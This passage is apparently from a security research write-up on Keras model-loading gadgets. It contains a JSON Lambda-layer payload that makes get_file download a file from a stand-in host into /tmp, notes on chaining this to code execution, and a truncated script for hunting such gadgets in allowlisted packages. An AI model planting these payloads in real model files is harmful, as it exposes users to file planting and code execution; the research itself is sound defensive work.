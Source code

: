 ```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "dl",
    "function": {"module": "keras.utils", "class_name": "get_file"},
    "arguments": {
      "fname": "artifact.bin",
      "origin": "https://example.com/artifact.bin",
      "cache_dir": "/tmp/keras-cache"
    }
  }
}
```

Important limitation:
- Lambda.call() prepends the input tensor as the first positional argument when invoking the target callable. Chosen gadgets must tolerate an extra positional arg (or accept *args/**kwargs). This constrains which functions are viable.

Potential impacts of allowlisted gadgets:
- Arbitrary download/write (path planting, config poisoning)
- Network callbacks/SSRF-like effects depending on environment
- Chaining to code execution if written paths are later imported/executed or added to PYTHONPATH, or if a writable execution-on-write location exists

## Researcher toolkit

1) Systematic gadget discovery in allowed modules

Enumerate candidate callables across keras, keras_nlp, keras_cv, keras_hub and prioritize those with file/network/process/env side effects.

```python
import importlib, inspect, pkgutil

ALLOWLIST = ["keras", "keras_nlp", "keras_cv", "keras_hub"]

seen = set()

def iter_modules(mod):
    if not hasattr(mod, "__path__"):
        return
    for m in pkgutil.walk_packages(mod.__path__, mod.__name__ + "."):
        yield m.name

candidates = []
for root in ALLOWLIST:
    try:
        r = importlib.import_module(root)
    except Exception:
        continue
    for name in iter_modules(r):
        if name in seen:
            continue
        seen.add(name)
        try:
            m = importlib.import_module(name)
        except Exception:
            continue
        for n, obj in inspect.getmembers(m):
            if inspect.isfunction(obj) or inspect.isclass(obj):
                sig = None
                try:
                    sig = str(inspect.signature(obj))
```
